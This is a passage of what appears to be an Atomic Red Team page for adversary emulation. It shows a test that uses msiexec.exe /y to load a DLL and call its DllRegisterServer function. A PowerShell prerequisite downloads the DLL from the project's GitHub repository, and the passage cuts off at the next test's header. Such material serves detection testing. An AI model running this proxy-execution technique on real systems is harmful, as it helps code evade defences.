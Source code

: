 **Supported Platforms:** Windows


**auto_generated_guid:** 0106ffa5-fab6-4c7d-82e3-e6b8867d5e5d





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| dll_payload | DLL to execute that has an implemented DllRegisterServer function | path | PathToAtomicsFolder&#92;T1218.007&#92;bin&#92;MSIRunner.dll|
| msi_exe | MSIExec File Path | path | c:&#92;windows&#92;system32&#92;msiexec.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
#{msi_exe} /y "#{dll_payload}"
```




#### Dependencies:  Run with `powershell`!
##### Description: The DLL must exist on disk at specified location (#{dll_payload})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{dll_payload}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{dll_payload}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.007/bin/MSIRunner.dll -OutFile "#{dll_payload}"
```




<br/>
<br/>

## Atomic Test #10 - Msiexec.exe - Execute the DllUnregisterServer function of a DLL
Loads a DLL into msiexec.exe and calls its DllUnregisterServer function. Note: the DLL included in the "bin" folder is only built for 64-bit, so this won't work on a 32-bit OS.

**Supported Platforms:** Windows


**auto_generated_guid:** ab09ec85-4955-4f9c-b8e0-6851baf4d47f




